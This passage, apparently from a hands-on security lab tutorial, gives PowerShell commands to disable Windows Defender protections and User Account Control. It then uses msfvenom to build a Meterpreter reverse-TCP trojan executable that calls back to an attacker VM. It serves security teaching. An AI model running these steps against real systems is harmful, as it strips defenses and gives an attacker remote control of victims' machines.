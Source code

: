 #### **Optional Method 3: Using PowerShell**
1. Open PowerShell as Administrator.
2. Run the following commands to turn off **Real-Time Protection**:
   ```powershell
   Set-MpPreference -DisableRealtimeMonitoring $true
   ```
3. You can also disable other Defender features like **Cloud Protection** and **Automatic Sample Submission**:
   ```powershell
   Set-MpPreference -DisableBehaviorMonitoring $true
   Set-MpPreference -DisableBlockAtFirstSeen $true
   Set-MpPreference -DisableIOAVProtection $true
   Set-MpPreference -DisableArchiveScanning $true
   ```

### **4. Disable User Account Control (UAC)**
To reduce pop-up warnings during testing, you may also want to disable **User Account Control (UAC)**, which can prompt for confirmation when executing programs.

#### **Method 1: Using Control Panel**
1. Open **Control Panel**.
2. Go to **User Accounts** → **Change User Account Control settings**.
3. Move the slider down to **Never notify**, then click **OK**.

- 💻 Disabled UAC

#### **Optional Method 2: Using PowerShell**
1. Open PowerShell as Administrator.
2. Run the following command:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "EnableLUA" -Value 0
   ```
3. Restart the server for the changes to take effect.

---

### **Task 2: Generate a Trojan in Parrot Linux (Reverse Shell Payload)**
The Trojan we'll create will be a `reverse shell`, which will allow the Parrot Linux VM to gain control of the Windows VM.

1. Open Metasploit in Parrot Linux:
   ```bash
   msfconsole

   # (Optional) Familiarize yourself with basic commands such as:
   search #(to find exploits)
   use #(to select an exploit)
   set #(to configure options)
   exploit #(to run the exploit)
   sessions #(to manage active sessions)  

   # to get the help of a command
   # help command_name such as
   help search 
   ```
2. Generate a Windows executable payload:
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Parrot_VM_IP> LPORT=4444 -f exe -o ./trojan.exe
   ```
   Replace `<Parrot_VM_IP>` with the IP address of the Parrot Linux VM (you can find this using the `ifconfig` command). The `LPORT` is the port that will listen for incoming connections from the Windows VM.
